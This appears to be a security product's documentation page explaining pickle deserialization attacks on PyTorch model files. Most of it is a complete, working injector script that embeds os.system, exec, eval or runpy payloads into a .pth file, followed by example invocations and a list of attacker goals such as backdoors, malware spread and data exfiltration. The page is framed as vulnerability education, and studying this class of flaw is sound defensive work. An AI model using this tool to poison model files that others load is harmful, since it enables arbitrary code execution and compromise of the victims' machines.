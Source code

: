 ```yaml
---
title: ModelArmor Pickle Code Injection
description: Learn how Python's pickle module can be exploited for arbitrary code execution and how to secure applications against such threats.
---
```


# **ModelArmor Use Case: Pickle Code Injection PoC**

The **Pickle Code Injection Proof of Concept (PoC)** demonstrates the security vulnerabilities in Python's `pickle` module, which can be exploited to execute arbitrary code during deserialization. This method is inherently insecure because it allows execution of arbitrary functions without restrictions or security checks.


## Core Code Overview

**Custom Pickle Injector:**

```python
import os, argparse, pickle, struct, shutil
from pathlib import Path
import torch

class PickleInject:
    def __init__(self, inj_objs, first=True):
        self.inj_objs = inj_objs
        self.first = first

    class _Pickler(pickle._Pickler):
        def __init__(self, file, protocol, inj_objs, first=True):
            super().__init__(file, protocol)
            self.inj_objs = inj_objs
            self.first = first

        def dump(self, obj):
            if self.proto >= 2:
                self.write(pickle.PROTO + struct.pack("<B", self.proto))
            if self.first:
                for inj_obj in self.inj_objs:
                    self.save(inj_obj)
            self.save(obj)
            if not self.first:
                for inj_obj in self.inj_objs:
                    self.save(inj_obj)
            self.write(pickle.STOP)

    def Pickler(self, file, protocol):
        return self._Pickler(file, protocol, self.inj_objs)

    class _PickleInject:
        def __init__(self, args, command=None):
            self.command = command
            self.args = args

        def __reduce__(self):
            return self.command, (self.args,)

    class System(_PickleInject):
        def __init__(self, args):
            super().__init__(args, command=os.system)

    class Exec(_PickleInject):
        def __init__(self, args):
            super().__init__(args, command=exec)

    class Eval(_PickleInject):
        def __init__(self, args):
            super().__init__(args, command=eval)

    class RunPy(_PickleInject):
        def __init__(self, args):
            import runpy
            super().__init__(args, command=runpy._run_code)
            def __reduce__(self):
                return self.command, (self.args, {})

# Parse Arguments
parser = argparse.ArgumentParser(description="PyTorch Pickle Inject")
parser.add_argument("model", type=Path)
parser.add_argument("command", choices=["system", "exec", "eval", "runpy"])
parser.add_argument("args")
args = parser.parse_args()

# Payload construction
command_args = args.args
if os.path.isfile(command_args):
    with open(command_args, "r") as in_file:
        command_args = in_file.read()

if args.command == "system":
    payload = PickleInject.System(command_args)
elif args.command == "exec":
    payload = PickleInject.Exec(command_args)
elif args.command == "eval":
    payload = PickleInject.Eval(command_args)
elif args.command == "runpy":
    payload = PickleInject.RunPy(command_args)

# Save the injected payload
backup_path = f"{args.model}.bak"
shutil.copyfile(args.model, backup_path)
torch.save(torch.load(args.model), f=args.model, pickle_module=PickleInject([payload]))
```

## Example Exploits

1. **Print Injection:**

   ```bash
   python torch_pickle_inject.py model.pth exec "print('hello')"
   ```

2. **Install Packages:**

   ```bash
   python torch_pickle_inject.py model.pth system "pip install numpy"
   ```

3. **Adversarial Command Execution:** Upon loading the tampered model:

   ```bash
   python main.py
   ```

   Output:

   - Installs the package or executes the payload.
   - Alters model behavior: changes predictions, losses, etc.

## Attacker Use Cases

1. **Spreading Malware:** The injected code can download and install malware on the target machine, which can then be used to infect other systems in the network or create a botnet.
2. **Backdoor Installation:** An attacker can use pickle injection to install a backdoor that allows persistent access to the system, even if the original vulnerability is patched.
3. **Data Exfiltration:** An attacker can use pickle injection to read sensitive files or data from the system and send it to a remote server. This can include configuration files, database credentials, or any other sensitive information stored on the machine.

## Key Risks

The `pickle` module is inherently insecure for handling untrusted input due to its ability to execute arbitrary code.

Ref: <https://hiddenlayer.com/research/weaponizing-machine-learning-models-with-ransomware/#Pickle-Code-Injection-POC>

---
